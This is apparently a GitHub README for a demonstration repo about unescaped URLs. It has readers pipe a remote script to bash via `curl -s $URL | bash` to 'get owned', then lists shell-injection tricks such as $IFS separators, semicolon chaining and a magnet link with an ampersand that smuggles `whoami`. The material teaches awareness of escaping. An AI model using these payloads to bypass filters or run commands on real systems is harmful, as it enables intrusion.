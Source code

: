 # latrina

* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash` 
* get owned and learn to escape urls

## url encoding copypaste nightmares 
#### setting string variables without quotes    
`a=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc -l < <(ls)`     
#### starting code execution without ampersand
`curl http://localhost/;whoami`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&whoami`
